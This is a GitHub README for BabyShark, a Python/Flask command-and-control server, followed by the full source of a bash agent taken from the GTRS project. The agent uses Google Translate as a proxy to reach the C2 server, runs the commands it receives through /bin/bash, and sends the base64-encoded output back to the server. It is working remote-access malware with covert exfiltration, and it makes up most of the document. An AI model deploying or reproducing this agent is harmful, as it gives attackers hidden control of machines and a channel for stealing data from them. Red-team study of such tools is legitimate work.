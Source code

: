 ![babyshark](https://repository-images.githubusercontent.com/268794697/4b8cb480-a584-11ea-9dd2-59cd3993dade)

# INTRO
<p style='text-align: justify;'>
This is a basic C2 generic server written in Python and Flask.

This code has based ideia to [GTRS](https://github.com/mthbernardes/GTRS), which uses [Google Translator](https://translate.google.com) as a proxy for sending commands to the infected host. The BabyShark project aims to centralize reverse connections with agents, creating a way to centralize several types of connections in one place. 

BabyShark does not generate infection agents, but it does offer a template to connect to it.
</p>

# INSTALL

```
git clone https://github.com/danilovazb/BabyShark/
cd BabyShark
mkdir database
sqlite3 database/c2.db < schema.sql
```

# AGENTS MODEL

### GTRS - https://github.com/mthbernardes/GTRS

This client example from GTRS for connect to BabyShark:

```bash
#!/bin/bash

if [[ $# < 2 ]];then
    echo -e "Error\nExecute: $0 www.c2server.com secretkey-provided-by-the-server\n"
    exit
fi

running=true
secretkey="b4bysh4rk"
user_agent="User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36"
data="Content-Hype: "
c2server="http://babyshark/momyshark?key=$secretkey"
result=""
input="/tmp/input"
output="/tmp/output"

function namedpipe(){
  rm "$input" "$output"
  mkfifo "$input"
  tail -f "$input" | /bin/bash 2>&1 > $output &
}

function getfirsturl(){
  url="https://translate.google.com/translate?&anno=2&u=$c2server"
  first=$(curl --silent "$url" -H "$user_agent" | xmllint --html --xpath '//iframe/@src' - 2>/dev/null | cut -d "=" -f2- | tr -d '"' | sed 's/amp;//g' )
} 

function getsecondurl(){
  second=$(curl --silent -L "$first" -H "$user_agent"  | xmllint --html --xpath '//a/@href' - 2>/dev/null | cut -d "=" -f2- | tr -d '"' | sed 's/amp;//g')
}

function getcommand(){
  if [[ "$result" ]];then  
    command=$(curl -L --silent $second -H "$result" )
  else
    command=$(curl -L --silent $second -H "$user_agent" )

    command1=$(echo "$command" | xmllint --html --xpath '//span[@class="google-src-text"]/text()' - 2>/dev/null)
    command2=$(echo "$command" | xmllint --html --xpath '/html/body/main/div/div/div/div/ul/li/span/text()' - 2>/dev/null )
    if [[ "$command1" ]];then
      command="$command1"
    else
      command="$command2"
    fi
  fi
}

function talktotranslate(){
  getfirsturl
  getsecondurl
  getcommand
}

function main(){
  result=""
  sleep 10
  talktotranslate
  if [[ "$command" ]];then
    if [[ "$command" == "exit" ]];then
      running=false 
    fi
    echo $command
    echo -n > $output
    idcommand=$(echo $command | cut -d '#' -f2)
    echo "$command" > "$input"
    sleep 2
    outputb64=$(cat $output | tr -d '\000'  | base64 | tr -d '\n'  2>/dev/null)
    if [[ "$outputb64" ]];then
      result="$user_agent | $outputb64 | $idcommand "
      talktotranslate
    fi
  fi
}

namedpipe
while "$running";do
  main
done

```
___


# NEXT STEPS



- SSH Reverse
- DNS
- DOH
- HTTPS
- HTTP3
- ICMP
- QUIC
